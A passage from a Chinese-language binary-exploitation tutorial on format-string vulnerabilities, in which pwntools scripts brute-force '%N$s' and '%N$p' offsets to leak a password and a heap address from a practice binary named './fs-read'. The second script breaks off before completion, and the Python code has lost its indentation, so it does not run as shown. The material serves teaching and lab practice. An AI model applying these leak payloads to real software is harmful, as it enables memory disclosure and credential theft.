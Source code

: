 **`stack_password`** 将被存储在栈中，因为它是一个局部变量，所以只需滥用 printf 来显示栈的内容就足够了。这是一个利用 BF 前100个位置来从栈中泄露密码的漏洞利用：
```python
from pwn import *

for i in range(100):
print(f"Try: {i}")
payload = f"%{i}$s\na".encode()
p = process("./fs-read")
p.sendline(payload)
output = p.clean()
print(output)
p.close()
```
在图像中，我们可以看到我们可以从堆栈中的第`10`位置泄漏密码：

<figure><img src="../../.gitbook/assets/image (1234).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1233).png" alt="" width="338"><figcaption></figcaption></figure>

### 读取数据

运行相同的利用程序，但使用`%p`代替`%s`，可以在`%25$p`处从堆栈中泄漏堆地址。此外，将泄漏的地址（`0xaaaab7030894`）与该进程中内存中密码的位置进行比较，我们可以获得地址之间的差异：

<figure><img src="broken-reference" alt="" width="563"><figcaption></figcaption></figure>

现在是时候找出如何控制堆栈中的一个地址，以便从第二个格式字符串漏洞中访问它：
```python
from pwn import *

def leak_heap(p):
p.sendlineafter(b"first password:", b"%5$p")
p.recvline()
response = p.recvline().strip()[2:] #Remove new line and "0x" prefix
return int(response, 16)

for i in range(30):
p = process("./fs-read")

heap_leak_addr = leak_heap(p)
print(f"Leaked heap: {hex(heap_leak_addr)}")

password_addr = heap_leak_addr - 0x126a

print(f"Try: {i}")
payload = f"%{i}$p|||".encode()
payload += b"AAAAAAAA"

p.sendline(payload)
```